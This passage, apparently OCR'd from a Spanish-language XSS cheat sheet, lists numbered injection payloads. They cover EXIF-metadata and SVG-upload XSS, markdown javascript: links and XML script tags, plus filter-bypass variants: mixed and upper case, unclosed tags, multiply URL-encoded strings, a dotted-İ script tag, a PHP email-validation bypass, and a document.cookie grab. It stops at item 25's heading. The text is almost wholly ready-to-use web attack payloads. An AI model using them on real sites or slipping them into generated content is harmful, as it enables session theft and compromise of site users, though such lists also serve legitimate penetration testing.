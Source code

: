     $ exiftool -Artist='"><script>alert(1)</script>' xss.jpeg
    
16 - XSS con archivo SVG (carga de archivo) 

    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
    
17 - XSS via markdown

    [Click Me](javascript:alert('1'))
    
18 - XSS en página XML     

    <a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
    
Agregue un "-->" a la carga útil si la entrada aterriza en una sección de comentarios 

Agregue un "]]>" si la entrada cae en una sección CDATA 


# XSS Cheat Sheet (Bypass)

19 - Caso mixto 

```html
<Script>alert(document.cookie)</Script> 
```

20 - Etiquetas abiertas 

```html
<svg onload="alert(1)"
```

21 - Cargas útiles en mayúsculas 

```html
<SVG ONLOAD=ALERT(1)>
```

22 - XSS Codificado

    (Encoded)
    %3Csvg%20onload%3Dalert(1)%3E 

    (Double Encoded)
    %253Csvg%2520onload%253Dalert%281%29%253E 

    (Triple Encoded)
    %25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
    
23 - Entrada minúscula JS 

```html
<SCRİPT>alert(1)</SCRİPT>
```

24 - Bypass de validación de correo electrónico de PHP

```html
<svg/onload=alert(1)>"@gmail.com
```

25 - Bypass de validación de URL de PHP 
